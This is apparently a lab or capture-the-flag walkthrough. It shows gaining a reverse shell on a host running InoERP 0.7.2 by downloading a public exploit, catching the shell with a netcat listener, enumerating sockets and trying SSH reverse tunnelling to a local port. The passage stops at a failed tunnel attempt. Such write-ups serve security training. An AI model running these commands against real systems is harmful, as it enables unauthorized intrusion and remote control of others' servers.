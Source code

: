 When visiting http://192.168.100.72/inoerp we discover another application.

inoerp
inoerp
After researching inoerp we discover InoERP 0.7.2 - Remote Code Execution (Unauthenticated).

We download the exploit onto our attacker machine.

kali@kali:~$ wget https://www.exploit-db.com/raw/48946
Now we start a listener on our attacker machine.

root@kali:~# nc -nvlp 80
Listening on [any] 80 ...
We execute our exploit.

kali@kali:~$ python 48946 http://192.168.100.72/inoerp 192.168.100.44 80
We receive a response in our listener.

root@kali:~# nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 58562
bash: cannot set terminal process group (33996): Inappropriate ioctl for device
bash: no job control in this shell
...
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$
Privilege Escalation
During our enumeration we list sockets using the ss utility:

www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ss -antp
ss -antp                                                                                                                                                   
State     Recv-Q Send-Q           Local Address:Port               Peer Address:Port                                                                            Process                                                                                                                                               
LISTEN 0      80                   127.0.0.1:3306                  0.0.0.0:*                                                                                    
LISTEN 0      4096             127.0.0.53%lo:53                    0.0.0.0:*                                                                                    
LISTEN 0      128                    0.0.0.0:22                    0.0.0.0:*                                                                                    
LISTEN 0      4096                 127.0.0.1:8443                  0.0.0.0:*                                                                                    
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:56603                                                                                
ESTAB  0      0               192.168.100.72:46962          192.168.100.44:80    users:(("ss",pid=245522,fd=2),("ss",pid=245522,fd=1),("ss",pid=245522,fd=0),("bash",pid=244997,fd=255),("bash",pid=244997,fd=2),("bash",pid=244997,fd=1),("bash",pid=244997,fd=0))
ESTAB  0      0               192.168.100.72:22                 5.9.47.204:65479                                                                                
LISTEN 0      511                          *:80                          *:*                                                                                    
LISTEN 0      128                       [::]:22                       [::]:*                                                                                    
ESTAB  0      0      [::ffff:192.168.100.72]:80    [::ffff:192.168.100.44]:39938  

We see that port 8443 is open for listening but if we open http://192.168.100.72:8443/ in the browser, there is no response.

To access port 8443 , we will utilize protocol tunneling.

We begin protocol tunneling with the following command (SSH server must be running on the attacker machine):

www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/var/www/.ssh'.
Host key verification failed.
From the output we seem to have restrictions on our shell.
